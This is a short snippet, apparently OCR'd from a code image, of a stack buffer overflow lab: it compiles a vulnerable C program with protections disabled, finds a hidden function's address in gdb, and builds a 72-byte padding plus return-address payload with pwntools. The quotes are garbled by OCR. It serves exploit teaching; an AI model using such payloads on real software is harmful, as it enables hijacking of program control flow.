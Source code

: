 '''bash
$ gcc vulnerable.c -o vuln -fno-stack-protector -no-pie -z execstack -g -w
$ gdb ./vuln
(gdb) info secret address
Symbol secret is a function at address 0x401196.
$ python3 -c ‘import sys; from pwn import *; sys.stdout.buffer.write (b”A”*72 + p64(0x401196))’ > payload.txt
$ ./vuln < payload.txt
'''
